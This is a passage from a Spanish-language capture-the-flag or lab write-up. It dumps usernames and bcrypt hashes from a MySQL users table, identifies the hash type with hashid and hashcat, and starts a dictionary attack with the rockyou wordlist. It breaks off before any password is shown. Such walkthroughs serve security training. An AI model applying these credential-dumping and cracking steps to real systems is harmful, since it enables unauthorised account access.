 Por lo tanto si hacemos una petición de SQL que nos muestre los usuarios y las contraseñas, obtenemos lo siguiente:

```shell
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```
### Crackeo de la contraseña.

Como se puede apreciar las contraseñas se encunetran cifradas pordemos intentar averiguarlas usando la herramienta `hashcat`, para ello vamos a comprobar si podemos averiguar que tipo de cifrado tienen.

```shell
hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

Vemos que han usado `Blowfish` para cifrar la contraseña por lo tanto vamos a comprobar su identificador. 

```shell
hashcat --example-hashes | grep -i "Blowfish" -B 5
```

```shell
Potfile.Enabled.....: Yes
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX

Hash mode #3200
  Name................: bcrypt $2*$, Blowfish (Unix)
--
  Potfile.Enabled.....: Yes
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX

Hash mode #18600
  Name................: Open Document Format (ODF) 1.1 (SHA-1, Blowfish
```

Obtenemos que su identificador es el `#3200` por lo tanto vamos a intentar descifrarla.

```shell
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
Finalmente obtenemos que la contraseña es:
